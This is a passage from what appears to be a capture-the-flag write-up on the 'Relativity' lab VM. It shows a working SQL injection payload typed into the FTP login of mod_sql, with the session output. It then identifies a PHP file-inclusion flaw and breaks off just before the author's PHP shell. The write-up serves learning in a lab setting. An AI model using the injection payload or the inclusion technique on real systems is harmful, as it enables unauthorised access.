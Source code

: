 No dice. :| Ok, well I guess I couldn't have expected it to be _that_ easy. This caused me to dig even deeper and research exactly what the problem is, and why this vulnerability exists. Eventually, I got hold of a vulnerable version of the software, set it up in a LAB VM, and tested the SQLi payload until it worked. I ended up with a slightly different payload to the ones available online.

```bash mod_sql SQLi success
# ftp 192.168.56.21
Connected to 192.168.56.21.
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.56.21:root): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;#
331 Password required for %').
Password:
230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;# logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

w00t. Notice the difference though? The SQL commenting was changed from -- to #. Apparently, MySQL is pretty finicky about the fact that the -- style comments should have a space afterwards. This means that a payload ending with say, `from users; -- NOTHING_OF_VALUE` would have worked too. Just putting a space after the -- did not work as the software most probably does a type of `trim()` on the field, hence the need to have something after the space too. Awesome, something learnt.

### web based attack
Now that we have FTP access to the host, we simply needed to `ls` to learn what is the next step.

```bash FTP Web Directory Reveal```
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
ftp> cd 0f756638e0737f4a0de1c53bf8937a08
550 0f756638e0737f4a0de1c53bf8937a08: Permission denied
ftp>
```

A directory called '0f756638e0737f4a0de1c53bf8937a08' was present, however our FTP user does not have access to this. We are able to deduce that this is in the web folder based on the content of the directory we have access to. So, time to slap http://192.16.56.21/0f756638e0737f4a0de1c53bf8937a08 into a web browser.

### exploiting the web based vulnerability
Browsing to the above mentioned URL revealed a PHP driven website filled with information about the Relativity artwork. While this in itself was interesting, the real interest was in the url's to different parts of the website. More specifically, the urls were composed as `index.php?page=definition.php`. Immediately this suggested that the file `index.php` was programmed to include other files in order to render the content. In the examples case it included definition.php.

My first attempts to exploit this was very successful. For this kind of potential vulnerability, I have a small PHP [data stream wrapper](http://php.net/manual/en/wrappers.data.php) shell in my toolbox. Normally, the shell looks something like this:
